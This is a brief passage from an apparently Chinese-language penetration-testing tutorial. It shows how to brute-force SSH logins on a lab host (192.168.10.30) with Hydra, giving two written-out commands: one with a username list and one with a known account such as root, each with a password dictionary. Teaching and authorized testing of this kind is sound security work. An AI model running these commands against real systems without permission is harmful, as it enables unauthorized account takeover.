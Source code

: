 ### 3.2.2.**开始爆破**

#### 3.2.2.1.**不知账号**

这里我是用我指定的账号密码文件进行破解，如果像我一样自己创建账号密码进行破解，那么你在那个目录下创建的就需要在那个目录下操作，否则就需要加上绝对路径，并且我这里设置的线程很少，如果你感觉慢，那么可以使用多一点的线程来跑字典。

```
命令：hydra -L user.txt -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ssh
```

![img](assets/wps3-1690339415758-4.jpg) 

#### 3.2.2.2.**知道账号**

若知道账号了，比如root，那么可以直接指定账号配合密码字典来测试，会更快。

```
命令：hydra -l root -P passwd.txt -t 2 -vV -e ns 192.168.10.30 ssh 
```

![img](assets/wps4-1690339415758-3.jpg) 
